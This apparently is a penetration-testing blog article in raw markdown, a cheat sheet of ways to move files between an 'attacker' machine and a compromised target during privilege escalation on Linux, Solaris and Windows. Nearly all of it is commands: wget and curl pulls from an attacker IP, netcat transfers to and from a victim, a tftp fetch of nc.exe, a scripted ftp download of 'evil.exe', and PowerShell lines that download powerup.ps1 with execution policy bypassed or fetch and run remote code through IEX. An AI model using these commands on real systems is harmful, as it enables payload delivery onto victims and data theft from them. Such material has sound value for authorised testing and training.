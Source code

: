 ```yaml
---
layout: single
title: '<span class="Articles"> Transfering data W|L - /Articles</span>'
excerpt: "while you are trying to privilage escalating you might need to know how to transfer archives or binaries "
date: 2023-04-26
header:

  teaser_home_page: true



categories:

  - article
  - web
  - files
tags:  
  - windows
  - Solaris
  - linux
toc: true
toc_label: "Content"
toc_sticky: true
show_time: true
---
```



while you are trying to privilage escalating you might need to know how to transfer archives or binaries
i recommend you to execute ```which``` before you try the following binaries in order to know ```which``` binaries are available in our machina; in the target machine 

examples

## Solaris | Linux

# Rsync

```rsync -az source destination```
# Python

```php
Python SimpleHTTPServer
```

```on Attacker```
```bash
python -m SimpleHTTPServer 80
```

```on target```
```bash
wget <attackerip>:80/filename
```



# Apache

```on Attacker```

```bash
cp filetoYouWantsend.txt /var/www/html
service apache2 start
```

```on target```
```bash
wget http://attackerip/file
```
```bash
curl http://attackerip/file > file
```
```bash
fetch http://attackerip/file  ```on BSD```
```


# Netcat

```Listen on your own machine```
```php
nc -lvp 4444 > file
```
```send to the Target machine```
```bash

nc <kali_ip> 4444 < file
```



# Netcat + Python


```on Attacker```
```bash
python -m http.server 90
```
```on target```

```wget <attackerip>:90/filename```



# Netcat 


```Listen on your own machine```

nc -lvp 4444 > file

```on target, wait for the file```
nc -nvlp 55555 > file

```on kali, push the file```
nc $victimip 55555 < file


----------------------

## God to know Linux|Solaris:

```To send the executable file to your machine```:

```bash
base64 executable
# copy the output
# paste it in a file called file.txt
# decode it and create the executable
base64 -d file.txt > executable
```
## Windows 


# TFTP
```Windows XP and Win 2003 contain tftp client. Windows 7 do not by default```
```tfpt clients are usually non-interactive, so they could work through an obtained shell```

atftpd --daemon --port 69 /tftp
Windows> tftp -i 192.168.30.45 GET nc.exe



FTP (pyftpdlib client on Kali)
```Ftp is generally installed on Windows machines```

# To make it interactive, use -s option

```On Parrot install a ftp client and set a username/password```

```bash
apt-get install python-pyftpdlib  
python -m pyftpdlib -p 21
```

```on Windows```

```bash
ftp <attackerip>
> binary
> get exploit.exe
```


# FTP (pureftpd client on parrot)

```on your own machine ```

```bash
 install ftp client

$ apt-get install pure-ftpd

 create a group

$groupadd ftpgroup

 add a user

$ useradd -g ftpgroup -d /dev/null -s /etc ftpuser

Create a directory for your ftp-files (you can also specify a specific user e.g.: /root/ftphome/zek).

$ mkdir /root/ftphome

 Create a ftp-user, in our example "zek" (again you can set "-d /root/ftphome/zek/" if you want to).

$ pure-pw useradd zek -u ftpuser -g ftpgroup -d /root/ftphome/
 Update the ftp database after adding our new user.

$ pure-pw mkdb

 change ownership of the specified ftp directory (and all it's sub-direcotries) 

$ chown -R ftpuser:ftpgroup /root/ftphome

 restart Pure-FTPD
 
$ /etc/init.d/pure-ftpd restart
```

```On Windows target machine```

```bash
echo open <attackerip> 21> ftp.txt
echo USER username password >> ftp.txt
echo bin >> ftp.txt
echo GET evil.exe >> ftp.txt
echo bye >> ftp.txt
ftp -s:ftp.txt
```



# Powershell
```bash 
echo $storageDir = $pwd > wget.ps1
echo $webclient = New-Object System.Net.WebClient >>wget.ps1
echo $url = "http://<attackerip>/powerup.ps1" >>wget.ps1
echo $file = "powerup.ps1" >>wget.ps1
echo $webclient.DownloadFile($url,$file) >>wget.ps1
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
```


# Powershell download a file
```bash
powershell "IEX(New Object Net.WebClient).downloadString('http://<targetip>/file.ps1')"
```
